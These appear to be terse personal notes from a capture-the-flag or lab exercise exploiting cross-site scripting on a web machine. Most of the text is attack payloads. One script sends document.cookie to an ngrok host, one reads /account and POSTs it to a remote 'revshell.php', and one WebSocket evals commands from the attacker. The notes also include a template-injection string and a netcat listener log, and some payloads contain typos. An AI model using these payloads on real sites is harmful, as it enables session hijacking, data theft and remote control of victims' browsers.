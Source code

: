 ## first machine

## url

xss possible with <script>alert(1) </script> pops window with 1

  <script>
      fetch(`https://c2c4-196-115-229-24.ngrok-free.app?cookie=${encodeURIComponent(document.cookie)}`)
  </script>

 response 

	{% set config=None%}{% set self=None%} 
	
".PShpaULgVM97vcqo1cdPIGA045ZjAk8GjNgRkxPPzU-1709910396-1.0.1.1-z9EF4R_2rVaYssX5t88RbMGjULq7D0CXiSGq0fM9oEo3Uu2PY55WhIO1REdEKNdBRE.zda9oqGwaZWVcL2.Dww"

  <script>
      fetch('/account)
          .then(p => p.text())
          .then(t =>
            fetch('https://c2bf-196-115-229-24.ngrok-free.app/revshell.php, {
              method: "POST",
              headers: { 'Content-Type':'application/json' },
              body: JSON.stringify({p:t})
            })
         ) 
  </script>
  
  
  
  when setting up listeners it doesnt seem to ping back , trying burpsuite for forging requests  .
  
  
  it ping back now 
  
			  ┌──(kali㉿kali)-[~]
			└─$ nc -lvnp 8080
			listening on [any] 8080 ...
			connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 42952
			CONNECT c2bf-196-115-229-24.ngrok-free.app:443 HTTP/1.1
			User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
			Proxy-Connection: keep-alive
			Connection: keep-alive
			Host: c2bf-196-115-229-24.ngrok-free.app:443

			id
			�u�_�����{��c�"��S6�~�*&kҽ�4,t ϰ��kZ�q\�T       +���G�CiԦc?s��1"�+�/�,�0�
			�       ����/5�'%"c2bf-196-115-229-24.ngrok-free.app�

			▒
			 #
			  hhttp/1.1"
			3ki )�l�!T\�RME�����Fm▒Ǘ��m�xZA�
						        �▒!��u��@kiT���
			-@t    
  
   <script>
     s = new WebSocket('wss:https://c2bf-196-115-229-24.ngrok-free.app/revshell.php')
     s.onmessage = e => eval(e.data)
  </script>
